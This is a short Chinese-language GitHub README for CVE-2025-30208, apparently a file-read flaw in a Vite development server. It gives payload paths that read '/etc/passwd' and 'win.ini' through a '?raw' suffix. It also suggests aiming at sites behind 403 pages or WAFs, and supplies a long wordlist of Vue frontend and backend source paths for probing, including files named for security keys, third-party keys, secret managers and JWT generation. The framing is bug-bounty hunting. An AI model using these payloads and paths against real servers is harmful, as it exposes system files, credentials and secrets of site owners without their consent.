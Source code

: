 # CVE-2025-30208
通过url去拼接下面路径来任意文件读取

```
/etc/passwd?raw"  # Linux系统文件

"/Windows/win.ini?raw" #windows文件
```
搜集完后去扫基本已经没剩几个了，很多都重复，不过有个其他的思路。讲一个小技巧，现在基本上常规的直接拼接路径已经刷烂了，不过我们可以把注意力放到一些403和有waf的网站
![a3bb815b6baee72ad140b6c829163a8](https://github.com/user-attachments/assets/bfd9424e-933d-43a1-bc16-c2f1038b47f2)

我们通过拼接这个路径去看有没有相关的内容，然后拼接一些vue开发最为熟悉的一些路径,下面为一些举例，具体还是需要看网站的线索来分析，通过一步步的扫雷式来进行扩散最后完成挖掘，这样我们就可以捡漏拿站交src了
以上思路仅供参考~

例如

/project/frontend/src/views/home.vue

/project/frontend/src/views/about.vue

/project/frontend/src/views/products.vue

/project/frontend/src/views/cart.vue

/project/frontend/src/views/checkout.vue

/project/frontend/src/views/orders.vue

/project/frontend/src/views/contact.vue

/project/frontend/src/views/faq.vue

/project/frontend/src/views/privacyPolicy.vue

/project/frontend/src/views/termsOfUse.vue

/project/frontend/src/views/profileEdit.vue

/project/frontend/src/views/changePassword.vue

/project/frontend/src/views/maintenance.vue

/project/frontend/src/constants/api-config.js

/project/frontend/src/constants/security-keys.js

服务类

/project/frontend/src/services/auth-handler.js

/project/frontend/src/services/cloud-service.js

/project/frontend/src/services/payment.js

页面组件
/project/frontend/src/views/admin/settings.vue

/project/frontend/src/views/admin/dashboard.vue

/project/frontend/src/views/admin/users.vue

/project/frontend/src/views/admin/orders.vue

/project/frontend/src/views/payment/confirm.vue

/project/frontend/src/views/user/security.vue

/project/frontend/src/views/user/profile.vue

/project/frontend/src/views/user/orders.vue

# 路由与状态

/project/frontend/src/router/private-routes.js

/project/frontend/src/router/admin-routes.js

/project/frontend/src/store/modules/secure-store.js

/project/frontend/src/store/modules/admin-store.js

# 后端路径
## 配置类

/project/backend/src/config/private-settings.js

/project/backend/src/config/third-party-keys.js

/project/backend/src/config/secret-manager.js

## 工具类

/project/backend/src/utils/crypto-helpers.js

/project/backend/src/utils/secure-logger.js

/project/backend/src/utils/jwt-generator.js

## 服务类
/project/backend/src/services/secure-auth.js

/project/backend/src/services/cloud-storage.js

/project/backend/src/services/payment-gateway.js
## 控制器
/project/backend/src/controllers/admin/security.js
/project/backend/src/controllers/admin/dashboard.js
/project/backend/src/controllers/admin/users.js
/project/backend/src/controllers/admin/orders.js
/project/backend/src/controllers/payment/process.js
/project/backend/src/controllers/user/credentials.js
/project/backend/src/controllers/user/profile.js
/project/backend/src/controllers/user/orders.js
